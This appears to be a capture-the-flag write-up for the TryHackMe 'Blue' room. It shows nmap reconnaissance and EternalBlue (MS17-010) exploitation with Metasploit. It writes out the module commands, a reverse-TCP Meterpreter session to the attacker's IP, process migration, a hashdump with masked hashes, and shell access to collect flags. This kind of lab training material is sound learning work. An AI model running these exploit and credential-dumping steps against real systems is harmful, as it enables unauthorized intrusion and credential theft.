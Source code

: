 # [Blue](https://tryhackme.com/room/blue)

`Machine's IP - 10.10.145.173`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.145.173 > nmap-blue.log`

# Analyzing Information and Risks


```
Nmap scan report for 10.10.145.173
Host is up (0.17s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2020-11-21T23:55:26
|_Not valid after:  2021-05-23T23:55:26
|_ssl-date: 2020-11-23T00:09:50+00:00; -1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h29m59s, deviation: 3h00m00s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:0e:34:55:e8:d9 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-11-22T18:09:45-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-23T00:09:45
|_  start_date: 2020-11-22T23:55:25

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.74 seconds
```

So, the in all the text that `Nmap` outputted to me I noticied that `SMB` or [Server Message Block](https://en.wikipedia.org/wiki/Server_Message_Block) was being somewhat enumerated. With a quick search I found out that Nmap had a default script for scanning called [smb-vuln-ms17-010](https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html). With the following command:

`nmap -sS 10.10.145.173 -p135,136,139,445 --script=smb-vuln-ms17-010 > nmap-blue-smb.log`

I was able to determine that this machine was vulnerable to MS17-010.

```
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

Then, I opened `msfconsole`

```
┌─[diracspace@parrot]─[~/Documents/tryhackme/blue]
└──╼ $msfconsole -q
msf6 > search EternalBlue
```

And decided to go with the averaged result option

`exploit/windows/smb/ms17_010_eternalblue`


So, I selected that one and `Metasploit` told me that

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```
Meaning that I would get a `Meterpreter` prompt right away. I specified the machine's IP and my `OpenVPN` IP and launched the exploit.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.145.173
rhosts => 10.10.145.173
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.6.20.112
lhost => 10.6.20.112
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.6.20.112:4444 
[*] 10.10.145.173:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.145.173:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.145.173:445     - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.145.173:445 - Connecting to target for exploitation.
[+] 10.10.145.173:445 - Connection established for exploitation.
[+] 10.10.145.173:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.145.173:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.145.173:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.145.173:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.145.173:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.145.173:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.145.173:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.145.173:445 - Sending all but last fragment of exploit packet
[*] 10.10.145.173:445 - Starting non-paged pool grooming
[+] 10.10.145.173:445 - Sending SMBv2 buffers
[+] 10.10.145.173:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.145.173:445 - Sending final SMBv2 buffers.
[*] 10.10.145.173:445 - Sending last fragment of exploit packet!
[*] 10.10.145.173:445 - Receiving response from exploit packet
[+] 10.10.145.173:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.145.173:445 - Sending egg to corrupted connection.
[*] 10.10.145.173:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.145.173
[*] Meterpreter session 1 opened (10.6.20.112:4444 -> 10.10.145.173:49198) at 2020-11-22 16:18:03 -0800
[+] 10.10.145.173:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.145.173:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.145.173:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

So, here I decided to first jump inside a shell and found out I'm `NT AUTHORITY\ System` so using `getsystem` would just be a little worthless. what I did do was change my process with

```
meterpreter > migrate -N winlogon.exe
[*] Migrating from 1300 to 656...
[*] Migration completed successfully.
```

Then I dumped the `SAM (Security Account Manager)` password `NLTM` hashes with `hashdump`

```
meterpreter > hashdump
Administrator:500:********************************:********************************:::
Guest:501:********************************:********************************:::
Jon:1000:********************************:********************************:::
```

Finally, I went to go look for the flags. Since we start out in the following directory 

```
meterpreter > shell
Process 1776 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

I knew that something was going to be in the local user directories. Eventually, I did find `flag3.txt` there telling me that the high level admin directories would be a good search. On my way there I found `flag1.txt` and with a quick `windows sam location` on `DuckDuckGo` I was able to find `flag2.txt` thus, finishing the room.

## License
[MIT](https://choosealicense.com/licenses/mit/)
